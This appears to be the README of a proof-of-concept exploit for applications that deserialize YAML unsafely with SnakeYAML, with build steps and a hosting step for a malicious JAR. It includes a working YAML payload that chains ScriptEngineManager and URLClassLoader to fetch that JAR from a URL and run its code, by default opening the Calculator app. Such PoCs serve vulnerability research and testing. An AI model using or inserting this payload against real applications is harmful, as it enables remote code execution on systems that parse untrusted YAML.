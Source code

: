# PoC SnakeYAML

## Usage

* Update the code in `src/pocsnakeyaml/PocScriptEngineFactory.java`, by default it will open the Calculator application on OS X
* Run `./build.sh` to compile the Java class and pack the JAR file
* Host the `poc.jar` file on your webserver or use a local webserver, for example `python3 -m http.server`

Use the following payload in the YAML file:

```yaml
some_var: !!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://localhost:8000/poc.jar"]]]]
```

_I set the JAVA_PATH variable in `build.sh` to a custom Java home path, you might want to change this._

## Disclaimer

This code is meant as proof-of-concept for vulnerabilities in projects using SnakeYAML on an unsafe way. I'm not related to SnakeYAML in any way and I'm not responsible for any activities of others using this PoC.
